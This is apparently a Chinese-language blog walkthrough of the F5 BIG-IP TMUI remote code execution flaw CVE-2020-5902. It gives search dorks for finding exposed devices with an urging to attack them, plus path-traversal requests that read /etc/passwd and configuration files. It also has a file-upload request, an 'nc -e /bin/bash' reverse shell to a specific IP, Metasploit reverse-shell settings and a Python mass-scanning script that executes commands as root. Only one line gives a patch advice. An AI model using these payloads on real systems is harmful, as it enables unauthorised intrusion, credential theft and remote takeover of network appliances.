





F5 BIG-IP TMUI 远程代码执行漏洞（CVE-2020-5902）复现 1、漏洞描述 F5 BIG-IP 是美国 F5 公司的一款集成了网络流量管理、应用程序安全管理、负载均衡等功能的应用交付平台。2020年7月1日，F5官方公布流量管理用户界面（TMUI）存在 前台远程执行代码（RCE）漏洞（CVE-2020-5902）。攻击者利用该漏洞，构造恶意请求，在未授权的情况下获得目标服务器的权限，实现远程代码执行。
2、影响版本 F5 BIG-IP < 15.1.0.4
F5 BIG-IP < 14.1.2.6
F5 BIG-IP < 13.1.3.4
F5 BIG-IP < 12.1.5.2
F5 BIG-IP < 11.6.5.2
3、设备检索 shodan
1 http.favicon.hash:-335242539 http.title:"BIG-IP® ;- Redirect"
fofa
1 title="BIG-IP® ;- Redirect"
censys
1 443.https.get.body_sha256:5d78eb6fa93b995f9a39f90b6fb32f016e80dbcda8eb71a17994678692585ee5 443.https.get.title:"BIG-IP® ;- Redirect"
google
1 inurl:"tmui/login.jsp" intitle:"BIG-IP” inurl:“tmui"
shodan批量脚本，配置好api key直接
https://github.com/aqhmal/CVE-2020-5902-Scanner
找到目标，开干

4、漏洞复现 POC： 1 2 3 GET /tmui/login.jsp/..;/tmui/system/user/authproperties.jsp GET /tmui/login.jsp/..;/tmui/util/getTabSet.jsp?tabId=AnyMsgHereWillBeReflectedInTheResponse
RCE: 这里的list 这些命令是防火墙自己定义的Tmsh命令。想了解请点击这个地址https://clouddocs.f5.com/api/tmsh/Other.html
1 2 3 curl -v -k 'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin' curl -v -k 'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user
Read File: 1 2 3 4 5 curl -v -k 'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd' fileRead.jsp?fileName=/etc/hosts fileRead.jsp?fileName=/config/bigip.license fileRead.jsp?fileName=/config/bigip.conf fileRead.jsp?fileName=/usr/local/www/tmui/WEB-INF/classes/org/apache/jsp/tmui/system/user/authproperties_jsp.class
List File 1 2 3 4 5 /tmui/locallb/workspace/directoryList.jsp Example: directoryPath=/usr/local/www/
上传文件
1 2 3 Example: /tmui/locallb/workspace/fileSave.jsp POST: fileName=/tmp/1.txt&content=CVE-2020-5902
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp HTTP/1.1 Host: 127.0.0.1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3 Accept-Encoding: gzip, deflate Connection: close Upgrade-Insecure-Requests: 1 Content-Type: application/x-www-form-urlencoded Content-Length: 41 fileName=/tmp/1.txt&content=CVE-2020-5902 HTTP/1.1 200 OK Date: Mon, 06 Jul 2020 02:05:29 GMT X-Frame-Options: SAMEORIGIN Strict-Transport-Security: max-age=16070400; includeSubDomains Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly Content-Type: text/html;charset=ISO-8859-1 X-Content-Type-Options: nosniff X-XSS-Protection: 1; mode=block Content-Security-Policy: default-src 'self' 'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data: http://127.4.1.1 http://127.4.2.1 Vary: Accept-Encoding Content-Length: 4 Connection: close
5、Getshell python exp 修改自MSF的exp
https://github.com/jas502n/CVE-2020-5902
在CVE-2020-5902.py里面修改好url。然后直接
1 python2 CVE-2020-5902.py
输入命令即可执行
得到shell
1 nc -e /bin/bash 129.204.113.202 5643

监听

连上就断了，我没试其他的python应该能成功。
msf 1 2 3 4 wget -P /usr/share/metasploit-framework/modules/exploits/linux/http/ https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb msfconsole reload_all search f5_bigip

1 2 3 4 5 use exploit/linux/http/f5_bigip_tmui_rce set rhost 1.2.3.4 set lhost 129.204.113.202 set lport 5567 set payload cmd/unix/reverse_python
用python反弹成功了。
tmshCmd.jsp + fileSave.jsp = Linux RCE 1 2 3 4 tmshCmd.jsp?command=create+cli+alias+private+list+command+bash fileSave.jsp?fileName=/tmp/cmd&content=id tmshCmd.jsp?command=list+/tmp/cmd tmshCmd.jsp?command=delete+cli+alias+private+list
6、安全建议 建议将F5 BIG-IP 升级至安全版本。下载地址参考：https://support.f5.com/csp/article/K52145254
7、修改的批量检查脚本 
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 import reimport sysfrom datetime import datetimeimport requestsfrom time import sleepimport optparserequests.packages.urllib3.disable_warnings() def getTime () : now = datetime.now() return now.strftime('%H:%M:%S' ) def showInfo (message) : print('[\033[1;94m{}\033[0;m] [*] {}' .format(getTime(), message)) def showFail (message) : print('[\033[1;94m{}\033[0;m] [\033[1;91m-\033[0;m] \033[1;91m{}\033[0;m' .format(getTime(), message)) def showSuccess (message) : print('[\033[1;94m{}\033[0;m] [\033[1;92m+\033[0;m] \033[1;92m{}\033[0;m' .format(getTime(), message)) def exit (message = None) : try : if message is not None : showFail(message) showInfo('Exiting script' ) sys.exit() except KeyboardInterrupt: pass def check (address) : try : url1 = address+ '/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash' url2 = address+ '/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/cmd&content=id' url3 = address+ '/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/cmd' url4 = address+ '/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=delete+cli+alias+private+list' requests.get(url1, verify=False , timeout=5 ) requests.get(url2, verify=False , timeout=5 ) r = requests.get(url3, verify=False , timeout=5 ) if 'uid=0(root)' in r.text: r = requests.get(address+ '/tmui/login.jsp' , verify=False , timeout=5 ) hostname = re.search(r'<p\stitle=\"(.*?)\">' , r.text).group(1 ).strip().lower() showSuccess('%s is vulnerable!' %(address)) with open('result.txt' , 'a+' ) as f: f.write('%s\n' %(address)) f.close() else : showFail('%s is not vulnerable' %(address)) requests.get(url4, verify=False , timeout=5 ) except KeyboardInterrupt: exit('User aborted!' ) except Exception as e: showFail("%s is not vulnerable" %(address)) def main () : try : commandList = optparse.OptionParser('usage: %prog -u URL [-f urls.txt]' ) commandList.add_option('-u' , '--url' , action="store" , help="Insert TARGET URL: http[s]://www.victim.com[:PORT]" , ) commandList.add_option('-f' ,'--infile' ,action='store' , help='Insert URL filename' ) options, remainder = commandList.parse_args() if not options.url and not options.infile: commandList.print_help() sys.exit(1 ) if options.url: urls = [options.url] check(urls[0 ]) if options.infile: f = open(options.infile, "r" ) for line in f.readlines(): check(line.strip()) f.close() except Exception as e: exit(e) if __name__ == '__main__' : try : main() except KeyboardInterrupt: exit('User aborted!' )
8、相关链接 https://support.f5.com/csp/article/K52145254
http://element-ui.cn/news/show-718757.aspx